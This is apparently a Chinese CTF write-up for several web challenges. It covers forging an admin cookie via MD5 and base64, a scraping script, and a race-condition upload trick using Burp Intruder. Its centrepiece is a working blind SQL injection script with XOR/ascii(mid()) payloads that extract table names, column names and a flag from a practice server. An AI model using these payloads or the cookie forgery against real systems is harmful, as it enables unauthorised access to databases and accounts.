 ```bash
ee11cbb19052e40b07aac0ca060c23ee
```
注意到是32wei,md5解密的
`user`
提示要用`admin`登入，对admin进行MD5机密，再base64，修改cookie可得
# 火眼金晶
```bash
import requests
import re
url = "http://119.23.73.3:5001/web10/index.php"
r = requests.get(url=url)
res_tr = r"'100'>(.*?)</textarea>"
txt =  re.findall(res_tr,r.content.decode('utf-8'))[0]
moctf = r"moctf"
mount = re.findall(moctf,txt)
number = len(mount)
data = {
    "answer":number
}
url1 = "http://119.23.73.3:5001/web10/work.php"
s = requests.post(url=url1,data=data,cookies=r.cookies)
print(s.content)
```
# 简单注入
不会做
```bash
import requests
import string
import codecs
s=string.printable
flag = ""
for i in range(1,30):
    for j in s:
        # url = "http://119.23.73.3:5004/?id=3'^'(ascii(mid((select(group_concat(TABLE_NAME))from(information_schema.TABLES)where(TABLE_SCHEMA=database())),"+str(i)+",1))="+j+")"
        # url = "http://119.23.73.3:5004/?id=3'^'(ascii(mid((select(group_concat(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='do_y0u_l1ke_long_t4ble_name')),"+str(i)+",1))="+j+")"
        url = "http://119.23.73.3:5004/?id=3'^'(ascii(mid((select(d0_you_als0_l1ke_very_long_column_name)from(do_y0u_l1ke_long_t4ble_name)),"+str(i)+",1))="+j+")"
        r=requests.get(url)
        if "Tip" in r.content.decode('utf-8'):
            flag += j
            print(flag)
            break

```
# 没时间解释
这是一个条件竞争题。访问，index.php跳转到index2.php 。bp抓包，访问index.php,知道要访问uploadsomething.php. 是一个类似上传的页面，随便上传一个，得知flag在哪个位置，访问之，显示too low. 多次尝试，知道flag在固定的目录下，文件名是我们控制的。开两个intruder.
```bash
http://119.23.73.3:5006/web2/uploadsomething.php?filename=123&content=§1234§
```
